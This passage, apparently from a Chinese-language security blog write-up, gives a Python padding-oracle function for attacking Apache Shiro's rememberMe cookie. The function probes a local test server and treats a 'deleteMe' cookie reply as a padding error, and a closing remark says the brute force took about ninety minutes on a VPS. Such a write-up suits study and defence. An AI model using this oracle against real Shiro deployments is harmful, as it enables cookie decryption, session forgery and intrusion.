     ![Pasted image 20241204113710.png](https://raw.githubusercontent.com/nob1ock/nob1ock.github.io/refs/heads/master/_posts/_images/2024-12-30/Pasted%20image%2020241204113710.png)

    最终的自定义解密函数

    ```python
    def decrypt_by_http(ciphertext, iv):  
        remember_me = cookie + base64.b64encode(iv + ciphertext).decode('utf-8')  
        url = 'http://127.0.0.1:8090/'  
        headers = {'Cookie': f'rememberMe={remember_me}'}  
        response = requests.get(url, headers=headers)  
        if 'rememberMe=deleteMe' in response.headers.get('Set-Cookie'):  
            raise ValueError('BadPadding')
    ```

    整个爆破过程因为通过网路交互的原因非常长，放vps上慢慢跑，最终耗时近1个半小时。

